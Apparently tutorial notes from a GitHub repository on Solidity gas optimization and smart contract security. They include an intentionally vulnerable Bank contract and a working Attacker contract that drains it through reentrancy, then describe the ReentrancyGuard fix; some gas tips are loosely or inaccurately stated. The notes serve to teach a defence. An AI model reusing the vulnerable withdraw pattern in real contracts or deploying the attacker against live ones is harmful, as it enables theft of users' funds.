 # Smart contract gas optimization

- uint8 saves gas than uint256

- Avoid loops

- Since, there are no floating points in solidity, use decimals to handle it. Beware that in division, Num>Den

- public state variables consume gas

- Extra text in return consumes gas 

- Events can be used to read variables which are only needed to be read by developer, not the user







# Smart contract security

- Use CEI withdrawal pattern(Check, Effects and Interaction) to prevent reentrancy

- block.timestamp can be manipulated by miners since they can change order of transactions. It is therefore recommended that instead we should use external time oracles

## What is reentrancy ?

Its calling any function of a smart contract while that function is being called. 

Mostly this function is the withdraw function. 

## Suppose there is a bank account smart contract which is vulnerable 

//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";

contract Bank {
    using Address for address payable;

    mapping(address => uint256) public balanceOf;

    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 depositedAmount = balanceOf[msg.sender];
        payable(msg.sender).sendValue(depositedAmount);
        balanceOf[msg.sender] = 0;
    }
}


## Now the attacker can make a smart contract to attack the bank smart contract which calls the deposit and withdraw functions simultaneously. And it keeps recieving the funds till the balance of the bank is exhausted 

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/access/Ownable.sol";

interface IBank {
  function deposit() external payable;
  function withdraw() external;
}

contract Attacker is Ownable {
  IBank public immutable bankContract;

  constructor(address bankContractAddress) {
    bankContract = IBank(bankContractAddress);
  }

  function attack() external payable onlyOwner {
    bankContract.deposit{ value: msg.value }();
    bankContract.withdraw();
  }

  receive() external payable {
    if (address(bankContract).balance > 0) {
      bankContract.withdraw();
    } else {
      payable(owner()).transfer(address(this).balance);
    }
  }
}


## How is the reentrancy done in this case ?

First of all the attacker calls the attack function which calls the deposit and withdraw function of the bank contract. 

As soon as the withdraw function is executed, the recieve function of attacker smart contract is executed. And that smart contract runs a loop of withdraw function till the balance is exhausted. 

Then all the balance of the contract is transferred to the attacker account (owner of the attack smart contract)



## How to protect smart contracts from reentrancy ?

- import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

- contract Bank is ReentrancyGuard {

- attach nonReentrant to withdraw function to protect against reentrancy 
(Inside the library, there is a simple variable whose value is set to 1 and 2 when we use the withdraw once, the value changes to 2). Any calls after the first call will fail)


